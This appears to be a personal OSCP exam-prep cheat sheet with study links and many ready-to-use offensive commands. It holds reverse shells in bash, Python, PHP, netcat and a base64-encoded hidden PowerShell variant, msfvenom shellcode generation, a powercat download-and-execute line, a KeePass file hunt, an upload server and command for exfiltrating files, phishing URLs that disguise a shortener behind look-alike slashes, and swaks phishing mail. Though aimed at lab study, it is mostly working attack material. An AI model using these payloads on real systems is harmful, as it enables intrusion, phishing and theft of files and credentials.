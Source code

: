 ```yaml
---
layout: blank
---
```


[https://johnstawinski.com/2022/10/09/oscp-2023-study-guide-new-exam-format/](https://johnstawinski.com/2022/10/09/oscp-2023-study-guide-new-exam-format/) [Ippsec’s videos](https://www.youtube.com/channel/UCa6eh7gCkpPo5XXUDfygQQA) - vital at the beginning - show a bunch of HTB walkthroughs
- [https://ippsec.rocks/?#](https://ippsec.rocks/?#) - search up video on a topic [HackTheBox Active Directory track](https://app.hackthebox.com/tracks/Active-Directory-101) [TJ Null’s list of OSCP-like HTB machines](https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=1839402159)
- `for i in \$(seq 1 254); do nc -zv -w 1 {IP/24}.$i {port}; done`
    - We have nmap at home

RDP on kali: `xfreerdp /u:{username} /p:{password} /v:{IP} (optional)/d:{domain} (optional)/drive:shared,/home/kali/Downloads/`
- Dealing with powershell wrapping? Just put the entire output in a variable and do `${variable} | Out-GridView`

Fixing Memory Corruption Exploits
- If it needs to be compiled on windows, use mingw-w64
    - `sudo apt install mingw-w64`
    - `i686-w64-mingw32-gcc`
    - `x86_64-w64-mingw32-gcc adduser.c -o adduser.exe`
    - if compilation errors arise, just search them up
        - `-lws2_32` can be used for undefined references to _imp
        - `-l` can be used for statically link local libraries
- Can update shellcode in exploits with new shellcode using msfvenom
- `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f c`
- `msfvenom -p windows/x64/shell_reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f c`
- Encoding shellcode for binary for buffer overflow: `msfvenom -p linux/x86/shell_reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f raw > shellcode.bin`

Seems the WP admin creds are no longer admin/test, but rather admin/password

Phishing with fake slashes: `https://github.com∕praetorian-inc∕noseyparker∕releases∕download∕v0.23.0∕secret-noseyparker-v0.23.0-aarch64-apple-darwin.tar.gz@%74%69%6E%79%75%72%6C%2E%63%6F%6D/%79%63%38%78%61%66%74%32`

Another example: `https://www.amazon.com∕gp∕product∕B008A0GNA8pr=conplccinc=259d9f6c-ea4f-492b-a741-8ca016e53a70ts=abthh8sjiwjcbgqcpkynoq55p8khgag&dasin=B07774L6TT&plattr=mathplace=priceblockimp@%74%69%6E%79%75%72%6C%2E%63%6F%6D/%79%63%38%78%61%66%74%32?=96298722-d186-4e28-b5e9-2ca14f49d977`

Using SMTP with `swaks`
- To use an SMTP server, we need a user whose credentials we know on the domain `swaks --server {IP_with_SMTP} --body @{body_txt_file} -ap --from {user@domain} --to {target@domain} --auth-user {user@domain} --auth-password {password} --attach @{file_to_attach} --header "{header_text}"`

If error `no PostgreSQL user name specified in startup packet`, make sure to:
- add env variables:
```
export PGUSER=postgres
export PGDATABASE=postgres
```
- `sudo apt install libpq-dev`
- `sudo apt-get install --reinstall postgresql-client`

Run powercat - `IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.220:8000/powercat.ps1');powercat -c 192.168.45.220 -p 4444 -e powershell`

Search for password database - `Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue`

To copy an executable, use `iwr -uri http://{kali_IP}/winPEASx64.exe -Outfile winPEAS.exe` instead of curl

Linux reverse shells:
- `bash -i >& /dev/tcp/{IP}/4444 0>&1`
- `busybox nc 10.10.10.10 1234 -e sh` or `busybox nc 10.10.10.10 1234 -e /bin/sh`
- `python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'`
- `<?php echo shell_exec('bash -i >& /dev/tcp/10.11.0.106/443 0>&1');?>`

Windows reverse shell
- Download/transfer netcat (nc.exe within `/usr/share/windows-resources/binaries/nc.exe`)
- `C:\Windows\Temp\nc.exe -e powershell.exe {kali_IP} 4444` Powershell reverse shell

```
import sys
    import base64
    
    payload = '$client = New-Object System.Net.Sockets.TCPClient("192.168.45.220",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
    
    cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()
    
    print(cmd)
    
```

Transfer files with xfreerdp - `xfreerdp /u:{u} /p:{p} /v:{IP} /drive:mydrive,{local_dir_path}`

Upgrading linux shell:
```
python -c 'import pty; pty.spawn("/bin/bash")'
    python3 -c 'import pty; pty.spawn("/bin/bash")'
    echo 'os.system('/bin/bash')'
    /bin/sh -i
    /bin/bash -i
    perl -e 'exec "/bin/sh";'
    
```

Exfiltrate files off of a Windows system `sudo python3 app.py`
```

#!/usr/bin/env python3
from http.server import SimpleHTTPRequestHandler, HTTPServer
import os

class FileUploadHTTPRequestHandler(SimpleHTTPRequestHandler):
    def do_POST(self):
        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length)

        # Get the filename from the POST headers if provided
        filename = self.headers.get('filename', 'upload.bin')

        # Save the uploaded file
        with open(filename, 'wb') as f:
            f.write(post_data)

        # Send a response back to the client
        self.send_response(200)
        self.end_headers()
        self.wfile.write(b'File uploaded successfully')

if __name__ == "__main__":
    server_address = ('0.0.0.0', 8080)  # Use any port you want
    httpd = HTTPServer(server_address, FileUploadHTTPRequestHandler)
    print(f"Serving HTTP on {server_address[0]} port {server_address[1]} (http://{server_address[0]}:{server_address[1]}/)")
    httpd.serve_forever()
    
```

`Invoke-WebRequest -Uri "http://{kali_IP}:8080/upload" -Method Post -InFile "{filename}" -Headers @{"filename"="{filename}"} -UseBasicParsing`